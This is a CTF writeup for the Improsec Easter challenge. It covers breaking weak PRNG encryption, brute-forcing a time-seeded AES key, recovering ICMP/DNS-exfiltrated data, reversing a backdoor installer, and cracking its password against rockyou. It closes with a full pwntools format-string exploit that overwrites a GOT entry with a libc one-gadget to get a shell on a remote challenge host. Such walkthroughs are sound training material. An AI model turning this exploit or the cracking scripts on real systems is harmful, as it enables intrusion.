







# Improsec Easter CTF writeup

I played the easter CTF by Improsec and got a lot of questions from others regarding stage 4, so I thought I'd do a writeup on it.

## Stage 1

We receive a file called message.txt which is a bunch of numbers and a script.py which has been used to encrypt the message:

```python
#!/usr/bin/python3
import sys

class PRNG:
    def __init__(self):
        self.state = 0x12345

    def next(self):
        self.state = (self.state * 0xdeadbeef + 0xbaad) & 0xffffffff
        return self.state % 0xff

def main():
    if len(sys.argv) != 2:
        print("Usage: {} <file>".format(sys.argv[0]))
    else:
        with open(sys.argv[1], "rb") as f:
            data = f.read()

        a = PRNG()
        b = bytes([x ^ a.next() for x in data])

        for x, y in [((z & 0xf), ((z >> 4) & 0xf)) for z in b]:
            print(x, y, end=' ')
        
if __name__ == '__main__':
    main()
```

The script generally just uses pseudo random generation with a set seed and xors every character in the message with it. It then just takes the upper 4 and lower 4 bits of the xored data and writes it to a file.

The following script decrypts the file:

```python
class PRNG:
    def __init__(self):
        self.state = 0x12345

    def next(self):
        self.state = (self.state * 0xdeadbeef + 0xbaad) & 0xffffffff
        return self.state % 0xff

states = []

state = PRNG() #Set up Pseudo random state

nums = []
encfile = b''
with open("message.txt","rb") as file:
    encfile = file.read().decode("UTF-8") #Read in the file

encfilenums = encfile.split(' ')
i = 0

while i<len(encfilenums): # Extract all the 4 bit numbers
    nums.append([encfilenums[i],encfilenums[i+1]])
    i+=2
#Decrypt the numbers
for number in nums:
    x = int(number[0])
    y = int(number[1])
    z = (y<<4) | x

    print(chr(z ^state.next()),end="")
```
This gives us an unencrypted message.txt file with the flag:

```
improsegg{big_bad_xorosaurus_rex!!}
```

## Stage 2
The decrypted message in stage2 gives us a text file that looks like this:

```
Hello Improsec! I reach out to you because we have identified peculiar streams of data in the network traffic going out of one of our feggtories... We cannot seem to figure out what is being communicated - can you please help us verify if we're under attack?

We have encrypted the network traffic capture and sent you the encryption key over a covert channel. However, we have also detected an increase in disturbances on our network, so we're unsure if you have received it. If not, please reach out. 

The script used for encryption can be found below. The complimentary IV is 56432b2020430679116139077d507c12.

<base64 encoded data>

Finally, here is the encrypted network traffic capture (we packed it in a ZIP-file along with other easter goodies!):

<hex encoded data>
```

The base64 string turns out to be another script, whilst the hex encoded data is an encrypted zip file.

The script:
```python
#!/usr/bin/python3
import random
import sys
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from datetime import datetime

def encrypt(key, iv, data):
    padded = pad(data, 16, style='pkcs7')
    crypto = AES.new(key, AES.MODE_CBC, iv=iv)
    return crypto.encrypt(padded)

def decrypt(key, iv, data):
    crypto = AES.new(key, AES.MODE_CBC, iv=iv)
    padded = crypto.decrypt(data)
    return unpad(padded, 16, style='pkcs7')

def randbytes(size):
    result = bytearray()
        
    for i in range(size):
        result.append(random.randrange(1, 127))
    
    return result

def main():
    if len(sys.argv) != 2:
        print("Usage: {} <file>".format(sys.argv[0]))
    else:
        with open(sys.argv[1], "rb") as f:
            data = f.read()

        random.seed(int(datetime.now().strftime('%H%M%S')))

        key = randbytes(0x10).replace(b'\x00', b'\xff')
        iv = randbytes(0x10).replace(b'\x00', b'\xff')

        print(iv.hex())

        print(encrypt(key, iv, data).hex())
        
if __name__ == '__main__':
    main()
```

Again this is pretty simple as it uses PRNG from the time, using only hour, minute and seconds as a seed. This is brute forceable. Since we know the goal IV (56432b2020430679116139077d507c12) we don't even need to check whether the zip file has been properly decrypted, but just check whether or not we've hit that IV when generating the random bytes.

This script accomplishes that:

```python


import random
import sys
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from datetime import datetime

def encrypt(key, iv, data):
    padded = pad(data, 16, style='pkcs7')
    crypto = AES.new(key, AES.MODE_CBC, iv=iv)
    return crypto.encrypt(padded)

def decrypt(key, iv, data):
    crypto = AES.new(key, AES.MODE_CBC, iv=iv)
    padded = crypto.decrypt(data)
    return unpad(padded, 16, style='pkcs7')

def randbytes(size):
    result = bytearray()
        
    for i in range(size):
        result.append(random.randrange(1, 127))
    
    return result

targetIV = bytes.fromhex('56432b2020430679116139077d507c12')
data = open("./somefile.zip","rb").read()

for i in range(0,24):
    for j in range(0,60):
        for k in range(0,60):
            random.seed(int(str(i)+str(j)+str(k)))
            key = randbytes(0x10).replace(b'\x00', b'\xff')
            iv = randbytes(0x10).replace(b'\x00', b'\xff')
            if iv == targetIV:
                print(f"FOUND TARGETIV: {targetIV}")
                print(f"KEY: {key}")
                open("decryptedzip.zip","wb").write(decrypt(key,iv,data))
```
This gives us a ZIP file containing a pcap file and a flag.txt:

```
improsegg{seeds_and_vegetation_yo!}
```

## Stage 3
Stage 3 is a pcap file with a lot of DNS and ICMP traffic.

After looking at the traffic for a while I realized that the ICMP packets are transmitting a ZIP file, where:
The first 4 bytes in data are the sequence number of where the packet belongs
The remaining bytes in data are the data of the packet.

Using this information I wrote a script to extract the information from the pcap and putting everything in the right sequence:

```python
from scapy.utils import RawPcapReader
from scapy.layers.l2 import Ether
from scapy.layers.inet import IP, ICMP

filename = "./capture.pcapng"
count = 0
icmppacketlength = 20

packetdict = {}
for (pkt_data, pkt_metadata,) in RawPcapReader(filename):
    count += 1
    ether_pkt = Ether(pkt_data)
    ip_pkt = ether_pkt[IP]
    if ip_pkt.proto != 1:
        continue
    icmp_pkt = ip_pkt[ICMP]
    if icmp_pkt.type != 8:
        continue
    
    fulldata = bytes(icmp_pkt)[8:]
    packetnum = (fulldata[:2][0]) | (fulldata[:2][1] << 8)
        
    payload = fulldata[4:]
    packetdict[packetnum] = payload

zipfile = b''
for i in range(len(packetdict.keys())):
    zipfile+=packetdict[i]

with open("zip2.zip","wb") as file:
    file.write(zipfile)
```

The ZIP file is however encrypted with a password. By looking at the DNS packets it becomes apparent that the password is found in the subdomain portion of the domains it is querying:



I went through and wrote this manually and it became:
```
ThIS_iS_The_loWeR_casE_PAssword_you_ARe_LOokINg_FoR___gorILlaswAMp_sTarphISH2300
```
So the password is:
```
gorillaswamp_starphish2300
```

This gives us a flag and a file called backdoor_installer.exe:

```
improsegg{exfiltrating_like_a_baws}
```

## stage 4
To figure out what the backdoor installer does, we will need to reverse engineer it. I decided to use Ghidra, for this.

Using entry, I find the main function which is located at FUN_140001ac0 and rename it appropriately.

In the beginning I see a call to rdtsc and some OR/AND operations with 0xffffffff00000000



This is highly likely an anti-debug mechanism. When I decided to actually run this binary to check whether or not my decryption script was working correctly, I just attached to the process after it had printed "Enter username :" as that was after the anti debug check.

Further down we can see that it encodes a password:



It then performs an md5sum of the encoded password:



And then afterwards performs a sha256sum of the encoded password, then compares it to a hardcoded value in the binary and checks whether the username is improsec:



Once that check is completed it does some decryption stuff of the backdoor.zip file, using the md5 and sha256 sum.

We will not be going through reversing the algorithm used to decrypt the backdoor.zip file as it uses both hashes to decrypt it and is near impossible to brute force. It is easier to try and brute force the password instead.

After all this it connects up to 164.92.150.74 and installs the backdoor using ssh.

The following script emulates the process of password encoding and password hashing done by the program and brute forces it against rockyou.txt:

```python
from hashlib import sha256
from hashlib import md5, sha1
#sha1(string).digest()
wordlist = []
with open("/opt/wordlists/rockyou.txt","rb") as file:
    wordlist = file.read()
newwordlist = wordlist.split(b'\n')
del wordlist


def encryptpassword(password):
    i = 0
    j = 1
    passwordlen = len(password)
    encrypted = b''
    while i < passwordlen:
        if passwordlen<2:
            break
        if i+1!=passwordlen:
            encrypted+= (~((((password[j % passwordlen] ^ (password[i]+1)) & 0xff) + 0x64) & 0xff) & 0xff).to_bytes(1,"little")
            i+=1
            j+=1
        else:
            encrypted+= (~((((encrypted[0] ^ (password[i]+1)) & 0xff) + 0x64) & 0xff) & 0xff).to_bytes(1,"little")
            i+=1
            j+=1

    return encrypted
targetsha = b"\x96\xDB\xCC\xCF\x42\x45\xEE\x91\x6F\x5E\x2D\x39\x87\xCC\x26\x35\x31\x3D\x87\x16\x05\xE1\x08\x05\x27\x4B\x84\x5C\x3E\xCD\x87\x22"

for word in newwordlist:
    print(word)
    password = word
    encpass = encryptpassword(password)
    #md5pass = md5(encpass).digest()
    sha256pass = sha256(encpass).digest()
    if(sha256pass == targetsha or sha256pass == targetsha[::-1]):
        print(f"FOUND PASSWORD: {password}")
        break
```

It took my computer about 5 minutes to run and found the password:

```
nathanxyz123
```

I could then run the backdoor_installer.exe to make it generate the backdoor.zip file, then terminate the program when it tried to connect up to the host via. ssh.

The zip file contained another flag along with the backdoor used on the remote:

```
improsegg{debugging_like_cha_cha!!}
```

## stage 5
The backdoor calls a function called authenticate and checks whether our username is improsec. It then checks whether the md5 of our password is equal to an md5sum hardcoded in the binary



Using crackstation, we can see that the password is `shopgirl711`

Once we are authenticated we get access to a very minimalistic command line interface:


We have the following commands:

1. maps, which prints out /proc/self/maps
2. ls, which prints out the current directory
3. exit, which exits the program.

However the backdoor also has a format string vulnerability, when it prints back the command we execute:



We can use this vulnerability to take over the control flow of the program.

The easy way of doing this, would be overwriting /proc/self/maps with the string flag.txt, when it then tries to open /proc/self/maps and writes it out, it would instead open flag.txt.

I decided however to go for shell on the box.

Using the maps command I could see it was running libc-2.31.so. Which means it's highly likely it's running the Ubuntu libc.

The Ubuntu libc-2.31.so has a bunch of one gadgets in it, we could use to spawn a shell.

The following exploit grabs the base addresses of libc and PIE using the maps command, then overwrites the GOT of opendir with a one gadget, then calls the maps command to spawn a shell:

```python
from pwn import *


context.terminal = ["konsole","-e"]

gdbscript = '''
b *main+199
c
'''
#io = gdb.debug("./backdoor",gdbscript=gdbscript)
io = remote("164.92.150.74" ,1337)
#io = process("./backdoor")
io.recvuntil(b'Enter username:')

io.sendline(b'improsec')

io.recvuntil(b'Enter password:')
io.sendline(b'shopgirl711')

io.recvuntil(b'Enter command:')

io.sendline(b'maps')

io.recvline()
pieleak = int(io.recvline().split(b'-')[0],16)

log.info(f'PIE: {hex(pieleak)}')

for i in range(0,16):
    io.recvline()
io.recvline()
libcleak = int(io.recvline().split(b'-')[0],16)
log.info(f"libc base: {hex(libcleak)}")

"""
0xe3b2e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe3b31 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe3b34 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

"""
one_gadget = libcleak + 0xe3b31

opendir = pieleak+0x00004060

gadgetbyte1 = one_gadget >> 56 & 0xff
gadgetbyte2 = one_gadget >> 48 & 0xff
gadgetbyte3 = one_gadget >> 40 & 0xff
gadgetbyte4 = one_gadget >> 32 & 0xff
gadgetbyte5 = one_gadget >> 24 & 0xff
gadgetbyte6 = one_gadget >> 16 & 0xff
gadgetbyte7 = one_gadget >> 8 & 0xff
gadgetbyte8 = one_gadget & 0xff

sleep(1)

print(1)
fmtpart = b'%'+str(gadgetbyte8).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir)
io.sendline(fmtpart + padding + addr)
print(2)
sleep(1)
fmtpart = b'%'+str(gadgetbyte7).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir+1)
io.sendline(fmtpart + padding + addr)
print(3)
sleep(1)
fmtpart = b'%'+str(gadgetbyte6).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))    
addr = p64(opendir+2)
io.sendline(fmtpart + padding + addr)

print(4)
sleep(1)
fmtpart = b'%'+str(gadgetbyte5).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir+3)
io.sendline(fmtpart + padding + addr)

print(5)
sleep(1)
fmtpart = b'%'+str(gadgetbyte4).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir+4)
io.sendline(fmtpart + padding + addr)

print(6)
sleep(1)
fmtpart = b'%'+str(gadgetbyte3).encode()+b'c'+b'%8$n'
padding = b'A'*(16-len(fmtpart))
addr = p64(opendir+5)
io.sendline(fmtpart + padding + addr)

print(7)
sleep(1)
io.sendline(b'ls')
# io.clean()

io.interactive()
```
This gives us the last flag:
```
improsegg{backdooring_a_backdoor!?}
```